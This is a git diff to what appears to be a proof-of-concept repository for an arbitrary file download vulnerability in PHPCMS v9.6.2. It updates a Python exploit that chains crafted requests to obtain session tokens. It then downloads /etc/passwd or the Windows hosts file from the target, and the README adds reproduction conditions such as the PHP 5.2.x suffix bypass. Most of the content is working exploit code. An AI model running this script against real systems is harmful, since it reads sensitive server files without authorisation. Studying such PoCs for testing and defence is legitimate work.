

[UPDATE] PHPCMS_v9.6.2_任意文件下载

Changed region(s): [[0.0, 0.0, 1.0, 1.0]]

diff --git a/PHPCMS/PHPCMS_v9.6.2_任意文件下载/poc.py b/PHPCMS/PHPCMS_v9.6.2_任意文件下载/poc.py
@@ -8,17 +8,30 @@ import sys
 import requests
 from termcolor import cprint
 
+def get_os(target):
+    """ 通过简单URL大小写判断是Win or Linux """
+    r = requests.get(target + 'Index.php')
+    if r.status_code == 200:
+        return 'WINDOWS'
+    else:
+        return 'LINUX'
+
 def poc(target):
-    print('第一次请求，获取 cookie_siteid ')
+    print('[*] first req, get os type to set different download-file url')
+    os = get_os(target)
+    print('[*] second req, get cookie_siteid param')
     url = target +'index.php?m=wap&c=index&a=init&siteid=1'
     s = requests.Session()
     r = s.get(url)
     cookie_siteid =  r.headers['set-cookie']
     cookie_siteid = cookie_siteid[cookie_siteid.index('=')+1:]
     # print cookie_siteid
-    print('第二次请求，获取 att_json ')
+    print('[*] third req, get att_json param')
     # 目标文件 /etc/passwd
-    url = target + 'index.php?m=attachment&c=attachments&&a=swfupload_json&aid=1&src=%26i%3D1%26m%3D1%26d%3D1%26modelid%3D2%26catid%3D6%26s%3D/etc/passw%26f%3Dd%3%25252%2*70C'
+    if os == 'WINDOWS':
+        url = target + 'index.php?m=attachment&c=attachments&&a=swfupload_json&aid=1&src=%26i%3D1%26m%3D1%26d%3D1%26modelid%3D2%26catid%3D6%26s%3Dc:Windows/System32/drivers/etc/host%26f%3Ds%3%25252%2*70C'
+    else:
+        url = target + 'index.php?m=attachment&c=attachments&&a=swfupload_json&aid=1&src=%26i%3D1%26m%3D1%26d%3D1%26modelid%3D2%26catid%3D6%26s%3D/etc/passw%26f%3Dd%3%25252%2*70C'        
     post_data = {
         'userid_flash':cookie_siteid
     }
@@ -28,15 +41,29 @@ def poc(target):
         if '_att_json' in cookie.name:
             cookie_att_json = cookie.value
     # print cookie_att_json
-    print('第三次请求，获取 文件下载链接 ')
+    print('[*] fourth req, get download url')
     url = target + 'index.php?m=content&c=down&a=init&a_k=' + cookie_att_json
     r = s.get(url)
     # print r.text
     if 'm=content&c=down&a=download&a_k=' in r.text:
-        cprint('[!] Vul : {}'.format(target),'red')
-        return True
-    else:
-        return False
+        start = r.text.index('download&a_k=')
+        end = r.text.index('" class="xzs')
+        # print('-- start: {}  end: {}'.format(start,end))
+        download_url = r.text[start+13:end]
+        download_url = target + 'index.php?m=content&c=down&a=download&a_k=' + download_url
+        # print('-- download_url:{}'.format(download_url))
+        r = s.get(download_url)
+        # print r.text
+
+        if os == 'WINDOWS': # windows hosts file
+            if 'HOSTS file' in r.text:
+                cprint('[!] Vul : {}'.format(target),'red')
+                return True
+        else:
+            if 'root:x:0:0' in r.text:
+                cprint('[!] Vul : {}'.format(target),'red')
+                return True
+
 if __name__ == "__main__":
 
-    poc('http://vulhost.com/CMS/PHPCMS_v9.6.2/')
+    poc('http://localhost/PHPCMS/PHPCMS_v9.6.2/')

diff --git a/PHPCMS/PHPCMS_v9.6.2_任意文件下载/README.md b/PHPCMS/PHPCMS_v9.6.2_任意文件下载/README.md
@@ -7,10 +7,15 @@
 
 ## PoC
 
-注意： 该 PoC 只适用于 Linux下（目标文件用 /etc/passwd 代替，其他流程与 9.6.1 的 poc.py 一样）。
+复现的时候需要注意两点：
+
+1. 新安装的 PHPCMS_v9.6.2 目录 \PHPCMS_v9.6.2\caches\caches_commons\caches_data 缺少缓存模型文件 model.cache.php 可以通过复制 PHPCMS_v9.6.1 响应目录的文件得到。
+
+2. 通过 xxx.php/ 的方式绕过文件后缀名检测需要在 PHP 版本为 5.2.x 时 才可以成功读取文件。
 
 ![poc.png](poc.png)
 
 ## References
 
 1. http://www.lybbn.cn/data/datas.php?yw=176
+2. https://www.seebug.org/vuldb/ssvid-93121
